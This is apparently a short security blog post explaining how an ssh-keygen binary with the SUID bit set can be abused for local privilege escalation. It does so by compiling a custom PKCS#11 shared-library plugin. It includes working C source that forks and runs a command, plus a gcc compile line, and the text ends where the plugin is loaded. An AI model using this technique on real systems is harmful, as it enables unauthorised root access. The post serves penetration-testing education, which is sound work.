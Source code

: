 ```yaml
---
title: "Exploiting ssh-keygen SUID binary using custom plugin"
description: "The web framework for content-driven websites."
pubDate: "Feb 27 2024"
---
```


A little ago I encountered a system which had SUID bit set on `ssh-keygen`

SUID is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner

ssh-keygen has the ability to load shared libraries during the execution of binary. You can also check it [here](https://gtfobins.github.io/gtfobins/ssh-keygen/)
We can take advantage of it, create our custom plugin which will execute system commands and load the plugin using ssh-keygen and become `root`

Here is an C example for the custom plugin:

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {
        execl("/usr/bin/whoami", NULL);
    } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

compile it as shared library(.so ) file 
```bash
gcc -c -fPIC rce.c -o lib.so
```
if you get `fatal error: pkcs11.h: No such file or directory` error, download [this file](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h), put it in the same directory with C file and try to compile again

Now run ssh-keygen with our custom plugin
![](../../assets/blog/images/ssh-keygen-suid/2.png)